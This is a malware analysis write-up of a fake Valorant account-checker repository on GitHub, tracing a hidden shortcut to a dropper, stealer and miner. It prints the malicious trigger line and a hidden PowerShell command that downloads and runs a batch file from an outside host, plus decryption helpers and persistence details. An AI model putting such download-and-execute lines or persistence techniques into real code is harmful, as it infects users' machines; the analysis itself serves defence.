

# Analysing a malicious github repository

## **Discovery**

I came across a github repository that had a somewhat legitimate looking project

<figure><figcaption></figcaption></figure>



It has 143 stars and 54 forks at the time of writting, so it looks believable, but if we take a closer look at the stars and forks:\


<figure><figcaption></figcaption></figure>

They are all from fake accounts, created all on the same day practically.

Taking a closer look at the other repositories on this account, there is another one that's also backdoored:\
[https://github.com/Hxaoi/Twitter-Cracker](https://github.com/Hxaoi/Twitter-Cracker)

## Taking a look at the repository code

The code is a python and is simulating a account checker for a online game (Valorant).&#x20;

Taking a look at the code, a line jumps out:

```python
os.system("start results/save.lnk")
```

This is running a windows shortcut that is on the "results" folder inside the repository.

By checking this shortcut, we can see his target:

```powershell
%comspec% /C %SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden iwr -Uri https://x0.at/18v6.bat -OutFile $env:TEMP\18v6.bat;Start-Process $env:TEMP\18v6.bat
```

This downloads a .bat file from **https://x0.at/18v6.bat**, saves it to the temp folder and then runs it.


## Analysing the malware

The bat file is massive, having a size of 36mb.

<figure><figcaption></figcaption></figure>

There is a big chunk of base64 defined on the top of the file, we can assume this will probably be our payload, at the end of the file, we see some interesting code:\


<figure><figcaption></figcaption></figure>

After removing some repeated words, we can something like this:\


<figure><figcaption></figcaption></figure>

It seems the big blob of base64 is encrypted using AES and compressed, by checking this code we can revert the process since we have the KEY and IV to decrypt the data, so I wrote a small powershell script to decrypt it, decompress it and then save it to disk:

```powershell
$XseZ='ReadLines';
$yJyL='Load';
$uZpI='GetCurrentProcess';
$dzbX='EntryPoint';
$tPqE='MainModule';
$waZb='FromBase64String';
$XmvD='TransformFinalBlock';
$ENIy='Split';
$gMuk='ElementAt';
$LLuy='CreateDecryptor';
$QCYT='ChangeExtension';

function oaFag($rKNRV){
	$Fneio=[System.Security.Cryptography.Aes]::Create();
	$Fneio.Mode=[System.Security.Cryptography.CipherMode]::CBC;
	$Fneio.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
	$Fneio.Key=[System.Convert]::$waZb('DoI1GdINO/odI9JOThyl7401RvkgTfoAX8MQMw24HoM=');
	$Fneio.IV=[System.Convert]::$waZb('LTCc2yyupcYae/wYTpkiyw==');
	$mQSLR=$Fneio.CreateDecryptor();
	$ooztA=$mQSLR.$XmvD($rKNRV,0,$rKNRV.Length);
	$mQSLR.Dispose();
	$Fneio.Dispose();
	$ooztA;
}

function tryNE($rKNRV){
	$fRenP=New-Object System.IO.MemoryStream(,$rKNRV);
	$zUkbv=New-Object System.IO.MemoryStream;
	$gjVsO=New-Object System.IO.Compression.GZipStream($fRenP,[IO.Compression.CompressionMode]::Decompress);
	$gjVsO.CopyTo($zUkbv);$gjVsO.Dispose();
	$fRenP.Dispose();
	$zUkbv.Dispose();
	$zUkbv.ToArray();
}

$c = Get-Content -Path "C:\Users\windows10\Downloads\code.txt"

$wlBSz=$c.$ENIy(':');
$gRTVe=tryNE(oaFag ([Convert]::$waZb($wlBSz[0])));
$iRgKa=tryNE(oaFag ([Convert]::$waZb($wlBSz[1])));

[io.file]::WriteAllBytes('C:\Users\windows10\Downloads\f1.bin',$gRTVe);
[io.file]::WriteAllBytes('C:\Users\windows10\Downloads\f2.bin',$iRgKa);
```

This gives us two binaries, one of about 27mb and another one of about 28kb, they are both made in .NET.

I will start by having a look at the bigger file (27mb), and right of the get go we can see it is highly obfuscated:\


<figure><figcaption></figcaption></figure>

The malware is deobfuscating the strings on this method:\


<figure><figcaption></figcaption></figure>

With this, we can create our own helper method to deobfuscate the strings outside the code:

```csharp
static string Get(string A_0, int A_1, int A_2, int A_3, int A_4, int A_5)
{
    int num = 78787870;
    if ((-1743288475 ^ 461882411) == -2087697586)
    {
        int num2 = num + sizeof(ulong);
    }
    StringBuilder stringBuilder = new StringBuilder();
    foreach (char c in A_0.ToCharArray())
    {
        stringBuilder.Append((char)((int)c - A_2));
    }
    return stringBuilder.ToString();
}

static void Main(string[] args)
{
    Console.WriteLine(Get("", 421592687, -785059054, 1005452607, 940660616, -1106098698));
    Console.ReadLine();
}
```

After a few hours of deobfuscating the code, I got it a bit cleaner and tried matching the names with the behaviour:

<figure><figcaption></figcaption></figure>

This malware acts more as a dropper, but it will add exclusions to Windows Defender and add persistence&#x20;

The malware will drop 2 files onto Application Data folder, one named "**OnwbaDTzzU.cmd**" and another named "**OnwbaDTzzU.vbs**"

If the malware runs as admin, it creates a scheduler task named "**OneDrive OnwbaDTzzU**", otherwise it creates a registry key named "**OneDrive OnwbaDTzzU**" on "**Software\Microsoft\Windows\CurrentVersion\Run"** pointing to the "**OnwbaDTzzU.vbs**" file

<figure><figcaption></figcaption></figure>

This adds persistence and drops more malware, which we will also have a look at.

## Looking at the dropped malware

Before being able to take a look at theresources, I create a little helper method to decompress the resources:

```csharp
 private static byte[] DecompressGzip(byte[] byteArr)
{
    MemoryStream memoryStream = new MemoryStream(byteArr);
    MemoryStream memoryStream2 = new MemoryStream();
    Stream stream = memoryStream;

    GZipStream gzipStream = new GZipStream(stream, CompressionMode.Decompress);
    gzipStream.CopyTo(memoryStream2);
    gzipStream.Dispose();
    memoryStream2.Dispose();
    memoryStream.Dispose();
    return memoryStream2.ToArray();
}
```

&#x20;Taking a look at the resource named "P", we can see It's also a .NET assembly, and has some interesting code, this time not obfuscated.

<figure><figcaption></figcaption></figure>

The code is considerable smaller, so it's easier for us to go through it, the line there on the `Assembly.Load()` jumps out, so let's take a look.

The method `Fat` defines a memorystream that is then decompressed and returned to the `Assembly.Load()`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Since we cannot see the full memorystream content on dnspy, I change a bit the code, in order to save it to disk instead of loading the assembly

<figure><figcaption></figcaption></figure>

This gives us a very obfuscated .NET DLL

<figure><figcaption></figcaption></figure>

I've extracted another DLL that was hidden the same way, but did not analyse it.&#x20;

Some more information about the other binaries:

* WorldOfMythia.exe seems to infect discord installations, but I did not take a good look at it.

I looked at other binaries but not in depth, so I will not include it here.

## Conclusion

This is a very destructive piece of malware(s) , including a stealer, discord infector and even a crypto miner.&#x20;

I did not have time to analyse every last binary since there are a lot, but I uploaded them all to virustotal and left the associated hashes bellow.

While I didn't go into great detail with the analysis, I'm hopeful that someone else will take this to a more in-depth level and analyze some of these binaries

## Indicators

| Hash                                                              | Assembly          |
| ----------------------------------------------------------------- | ----------------- |
| 585ac7894d8146341ae408121c31ea0f95936e3719683c862a0ec2db2caccb0a  | WorldOfMythia.exe |
| 34f06a471d1329d2543c5b4df7e2346582279e7789bab518ee9ffc18a6eadf4d  | UAC.bin           |
| 35093cf30e63d1eb7bc8b7cfb39dea2a7f0beb7778a1939b66f0e55910f3da01  | Xmihuj.exe        |
| f5f25e5e5bc5b827257f0d7f78e2e2f1f6c3cab71dad38d69598055d706e9fee  | Qjctluhw.dll      |
| 661bca19ee42e61b481a5499cad2f5858940b7cef33dae924cec013dc939da7b  | Aeodr.dll         |
| 1ad4dc2d3c32c156d98e049133dfdc096a6667932613dce21d8f4f659fee5fd4  | 18v6.bat          |
| 54512dd064c21154462ada0523c7ca88f23ade0313f17b4c7136554fad669fd9  | Uqqjl.exe         |
| c978dfd73d3c988caa02b70a29eed369709c147066270c2a29c72acc83670b16  | WxpLuq.tmp        |
| b581309a29cee0fd4a681982688b998178dd5a81bb97d99deb5a2bace6d1dbc5  | Lewfoa.tmp        |

